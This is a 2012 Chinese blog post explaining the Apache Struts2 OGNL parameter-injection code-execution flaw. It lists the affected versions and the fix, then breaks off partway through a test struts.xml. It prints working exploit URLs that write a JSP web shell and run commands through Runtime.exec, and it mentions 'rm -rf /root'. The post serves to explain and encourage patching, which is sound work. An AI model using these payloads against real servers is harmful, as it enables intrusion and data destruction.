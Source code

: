 title: struts2代码执行漏洞
id: 129
categories:
  - java
date: 2012-01-09 14:02:19
tags:
---

刚刚[@乌云-漏洞报告平台](http://weibo.com/wooyun2)公布的struts2代码执行漏洞，具体的漏洞说明地址

[https://www.sec-consult.com/files/20120104-0_Apache_Struts2_Multiple_Critical_Vulnerabilities.txt](https://www.sec-consult.com/files/20120104-0_Apache_Struts2_Multiple_Critical_Vulnerabilities.txt "https://www.sec-consult.com/files/20120104-0_Apache_Struts2_Multiple_Critical_Vulnerabilities.txt")

还是热乎的，我大概白话一下。

这个漏洞的级别很高，都升级修补一下。

影响版本是2.3.1和2.3.1之前的版本

解决办法是升级2.3.1.1

漏洞原理（自己理解的）

Struts2的核心是使用的WebWork，处理Action时通过ParametersInterceptor（参数过滤器）调用Action的getter/setter方法来处理http的参数，它将每个http参数声明为一个ONGL语句。

例如

处理请求配置这样

&lt;action name=&quot;Test&quot; class=&quot;example.Test&quot;&gt; 
</br>&nbsp;&nbsp;&nbsp; &lt;result name=&quot;input&quot;&gt;test.jsp&lt;/result&gt; 
</br>&lt;/action&gt;

通过ONGL就可以转换成

/Test.action?id='%2b(new+java.io.BufferedWriter(new+java.io.FileWriter(&quot;C:/wwwroot/sec-consult.jsp&quot;)).append(&quot;jsp+shell&quot;).close())%2b' 

oh！god！系统权限就有了，想干什么，就可以干什么了。

或者这样

/Test.action?id='%2b(%23_memberAccess[&quot;allowStaticMethodAccess&quot;]=true,@java.lang.Runtime@getRuntime().exec('calc'))%2b' 

想执行什么就可以执行什么了。比如 rm –rf /root..

我根据说明做了一下测试

jdk：1.6

struts:2.2.1

代码如下：

struts.xml
<pre><span>   1:</span><span>&lt;?</span><span>xml</span><span>version</span><span>=&quot;1.0&quot;</span><span>encoding</span><span>=&quot;UTF-8&quot;</span> ?<span>&gt;</span></pre>
</br>
</br><pre><span>   2:</span><span>&lt;!</span><span>DOCTYPE</span><span>struts</span><span>PUBLIC</span></pre>
</br>
</br><pre><span>   3:</span><span>&quot;-//Apache Software Foundation//DTD Struts Configuration 2.0//EN&quot;</span></pre>
</br>
</br><pre><span>   4:</span><span>&quot;http://struts.apache.org/dtds/struts-2.0.dtd&quot;</span><span>&gt;</span></pre>
</br>
</br><pre><span>   5:</span><span>&lt;</span><span>struts</span><span>&gt;</span></pre>
</br>